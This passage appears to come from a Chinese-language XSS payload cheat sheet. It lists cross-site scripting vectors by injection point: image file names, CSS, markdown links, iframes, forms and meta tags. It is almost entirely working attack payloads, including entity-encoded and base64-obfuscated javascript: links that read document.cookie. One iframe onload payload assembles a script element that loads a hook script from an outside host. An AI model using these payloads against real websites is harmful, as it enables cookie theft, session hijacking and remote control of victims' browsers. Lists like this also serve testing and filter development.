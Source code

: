 #### 8. 图片名
`"><img src=x onerror=alert(document.cookie)>.gif`

#### 9. 过期的payload
- src=javascript:alert基本不可以用
- css expression特性只在旧版本ie可用

#### 10. css
```html
<div style="background-image:url(javascript:alert(/xss/))">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
```
#### 11. markdown
```markdown
[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
![a'"`onerror=prompt(document.cookie)](x)
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
```
#### 12. iframe
```html
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```
- `<iframe src=javascript:alert(1)></iframe>`
- `<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>`
- `<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>`
- `<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>`
- `<iframe src=https://baidu.com width=1366 height=768></iframe>`
- `<iframe src=javascript:alert(1) width=1366 height=768></iframe`

#### 13. form
- `<form action=javascript:alert(1)><input type=submit>`
- `<form><button formaction=javascript:alert(1)>M`
- `<form><input formaction=javascript:alert(1) type=submit value=M>`
- `<form><input formaction=javascript:alert(1) type=image value=M>`
- `<form><input formaction=javascript:alert(1) type=image src=1>`

#### 14. meta
`<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">`

